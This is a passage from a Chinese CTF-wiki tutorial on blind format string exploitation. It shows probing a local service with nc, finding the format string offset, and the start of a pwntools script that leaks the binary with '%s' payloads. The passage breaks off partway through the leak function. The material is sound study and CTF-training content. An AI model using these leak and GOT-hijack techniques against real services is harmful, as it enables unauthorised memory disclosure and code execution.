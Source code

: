 最后在输出中简单看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子2-盲打劫持got

源码以及部署文件均已经在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) 文件夹中。

#### 确定程序位数

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

#### 确定偏移

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为 6。

#### 泄露binary

由于程序是64位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的。。所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
```